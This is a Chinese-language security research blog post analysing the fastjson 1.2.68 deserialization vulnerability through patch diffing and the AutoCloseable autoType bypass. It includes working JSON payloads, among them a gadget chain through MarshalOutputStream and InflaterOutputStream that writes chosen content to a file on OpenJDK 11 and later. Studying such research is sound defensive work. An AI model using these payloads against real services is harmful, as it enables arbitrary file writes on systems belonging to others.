 ```yaml
---
title: fastjson 1.2.68 反序列化漏洞 gadgets 挖掘笔记
date: 2020-06-12 22:15:32
tags: [java, web]
---
```


以此祭奠找 gadgets 逝去的青春, orz

<!-- more -->

## 漏洞原因

既然已经出了补丁, 首先 diff 一下新版本与旧版本的差别, 这里因为 fastjson 会更新旧版本, 自然优先去 diff 旧版本的 sec 更新. 而不是去看 git log, 这样可以节省点时间, 因为 sec 更新只包含漏洞修补, 没有 feature 的更新.  

这里挑了 1.2.48 版本:  
https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.48.sec09/  
https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.48.sec10/

```diff
$ diff 1.2.48-sec09/com/alibaba/fastjson/parser/ParserConfig.java  1.2.48-sec10/com/alibaba/fastjson/parser/ParserConfig.java
71a72
>     public static final String    SAFE_MODE_PROPERTY        = "fastjson.parser.safeMode";
75a77
>     public static  final boolean  SAFE_MODE;
87a90,93
>             String property = IOUtils.getStringProperty(SAFE_MODE_PROPERTY);
>             SAFE_MODE = "true".equals(property);
>         }
>         {
185a192
>     private boolean                                         safeMode               = SAFE_MODE;
214a222,224
>                 0xD54B91CC77B239EDL,
>                 0xD59EE91F0B09EA01L,
>                 0xD8CA3D595E982BACL,
244a255
>                 0x1CD6F11C6A358BB7L,
273a285
>                 0x535E552D6F9700C1L,
291c303,305
<                 0x7AA7EE3627A19CF3L
---
>                 0x7AA7EE3627A19CF3L,
>                 0x7ED9311D28BF1A65L,
>                 0x7ED9481D28BF417AL
497a512,519
>     public boolean isSafeMode() {
>         return safeMode;
>     }
> 
>     public void setSafeMode(boolean safeMode) {
>         this.safeMode = safeMode;
>     }
> 
1033a1056,1059
>         if (this.safeMode) {
>             throw new JSONException("safeMode not support autoType : " + typeName);
>         }
> 
1038,1045c1064,1075
<             if (expectClass == Object.class
<                     || expectClass == Serializable.class
<                     || expectClass == Cloneable.class
<                     || expectClass == Closeable.class
<                     || expectClass == EventListener.class
<                     || expectClass == Iterable.class
<                     || expectClass == Collection.class
<                     ) {
---
>             long expectHash = TypeUtils.fnv1a_64(expectClass.getName());
>             if (expectHash == 0x90a25f5baa21529eL
>                     || expectHash == 0x2d10a5801b9d6136L
>                     || expectHash == 0xaf586a571e302c6bL
>                     || expectHash == 0xed007300a7b227c6L
>                     || expectHash == 0x295c4605fd1eaa95L
>                     || expectHash == 0x47ef269aadc650b4L
>                     || expectHash == 0x6439c4dff712ae8bL
>                     || expectHash == 0xe3dd9875a2dc5283L
>                     || expectHash == 0xe2a8ddba03e69e0dL
>                     || expectHash == 0xd734ceb4c3e9d1daL
>             ) {
```

明显看到 expectClass 的判断出了变化, 甚至加了层 hash, 有种此地无银三百两的味道 233.  
这里修改下 fastjson-blacklist, 改成用 `TypeUtils.fnv1a_64` 来计算 hash, 可以得到新增了三个类型的判断, `java.lang.AutoCloseable`, `java.lang.Readable`, `java.lang.Runnable`.  

这里稍微跟了下程序, 发现 expectClass 的作用其实相当于一个临时白名单, 这里有两个特性:  

1. 比如有个  
```java
public interface Face {

}

public class Test implements Face {
    String aaa;

    public void setAaa(String aaa) {
        this.aaa = aaa;
    }
}

public class Test2 {
    Face test;

    public void setTest(Face test) {
        this.test = test;
    }
}
```

那么通过 `JSON.parseObject("{\"test\":{\"@type\": \"Test\", \"aaa\": \"zz\"}}", Test2.class);` 是可以反序列化的, fastjson 会对当前反序列化类的 field 的类型作为 type 传进 `JavaBeanDeserializer.deserialze`. 最后成为 expectClass 代入 checkAutoType 中, 如果 @type 指定的类是 expectClass 的子类, 就可以在黑名单不禁止的情况下通过检查, 这样就可以为 interface 制定类.  

2. 还有一个特性, 那就是会直接为 field 创建 JavaBeanDeserializer, 这个更强一些, 无视黑名单以及白名单, 但是前提有一个类的 field (或者 setter) 使用了才行. 比如:  
```java
public static class Test2 {
    java.lang.Thread test;

    public void setTest(java.lang.Thread test) {
        this.test = test;
    }
}
```
`JSON.parseObject("{\"test\":{\"@type\":\"java.lang.Thread\"}}", Test2.class);` 会直接将 Thread 反序列化, 无视了黑名单 (实际上直接绕过了 checkAutoType, SafeMode 下依然可以反序列化), 但这个明显鸡肋很多, 毕竟那些危险类一般情况下都是没用的. 没人会作为 filed 来使用.  

这次漏洞也是因为特性 1 的原因. 但还有一个原因才能导致漏洞, 那就是 AutoCloseable 是在内置的反序列化 classMappings 中的, 没错, 就是之前缓存绕过 autoType 的那个 mapping. 所以导致了 AutoCloseable 是能直接被反序列化的, 这里可以根据特性一, 构造

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.FileOutputStream",
    "file": "/tmp/asdasd",
    "append": true
}
```

这样可以直接绕过 autoType 的检查, 得到 java.io.FileOutputStream, 此处是直接用 `"@type": "java.lang.AutoCloseable"` 构造出了 JavaBeanDeserializer, 而不是跟上面的例子一样通过 filed 的方式. 相信看到这里, 就已经有想法了, 可以通过 AutoCloseable 的子类来完成相关的攻击.  


## 漏洞修复

修复方式从上面的 diff 中可以看出是在原来的基础上加了几个, 实际上可以看到原来本身就是有防御的, 因为有些内置类是以 Object 作为 setter, 构造函数的参数类型的, 如果不 ban 掉, 就可以直接反序列化任意类了. 这次的漏洞更像是某种意义上的黑名单被绕过, 不过可以看到 AutoCloseable 是 Closeble 的父类, 不知道为什么会在 Closeble 已经被 ban 掉的情况下忘记添加 AutoCloseable, 可能是忘记了? 233


## 漏洞利用

这里分享一条我找到的不需要三方库的链, 注意虽然不需要三方库, 但只能在 openjdk >= 11 下利用, 因为只有这些版本没去掉符号信息. fastjson 在类没有无参数构造函数时, 如果其他构造函数是有符号信息的话也是可以调用的, 所以可以多利用一些内部类, 但是 openjdk 8, 包括 oracle jdk 都是不带这些信息的, 导致无法反序列化, 自然也就无法利用. 所以相对比较鸡肋, 仅供学习. orz  

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "/tmp/asdasd",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },
        "bufLen": "100"
    },
    "protocolVersion": 1
}
```

大致思路是从上面已经写出来的 FileOutputStream 开始, 找到一个能往里面指定写入内容的类, 这里要一次传入两个参数, 所以只能通过构造函数或者两个 setter 来设置, 比较尴尬的是没有找到可以直接触发的, 还需要再调用一次 write/close/flush 才能真正写入内容, 最后又找到了 `sun.rmi.server.MarshalOutputStream`, 可以写入不可控内容, 才真正完成 exp.  

这里可以通过反射来暴力搜索函数相关参数, 加快搜索过程, 但也是很麻烦的 orz
